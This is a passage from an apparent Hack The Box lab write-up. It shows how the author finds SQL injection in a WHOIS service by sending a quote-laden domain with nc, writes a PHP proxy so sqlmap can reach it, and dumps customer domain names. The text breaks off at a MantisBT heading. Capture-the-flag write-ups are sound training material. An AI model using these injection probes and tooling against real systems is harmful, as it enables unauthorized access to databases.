 Sure looks authentic. But, did you see the first line?

```
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
```

What is MariaDB doing there? If I had to guess, I would say that's an invitation to probe for SQL injection.

```
# echo "supersechosting.htb'" | nc 10.10.10.155 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''supersechosting.htb'') limit 1' at line 1
```

Oh yeah. Armed with this knowledge, I wrote a funnel of sorts in PHP and host it with Apache.

```php
<?php

        $sock = fsockopen("10.10.10.155", 43, $errno, $errstr, 30);
        if (!$sock) {
                echo "$errstr ($errno)\n";
        } else {
                $domain = $_GET['d'];
                $domain .= "\r\n";
                fwrite($sock, $domain);
                while (!feof($sock)) {
                        echo fgets($sock);
                }
                fclose($sock);
        }

?>
```

Long story short, using `sqlmap` against `http://localhost/index.php?d=supersechosting.htb` yields the following.

```
SELECT domain from customers; [4]:
[*] justanotherblog.htb
[*] pwnhats.htb
[*] rentahacker.htb
[*] supersechosting.htb
```

Let\'s do a zone transfer on all of them and add them to `/etc/hosts`.

### MantisBT Owned!

While I was exploring the `rentahacker.htb` domain, I chanced upon an interesting comment in the blog.

<a class="image-popup">

[1]: https://www.hackthebox.eu/home/machines/profile/202
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/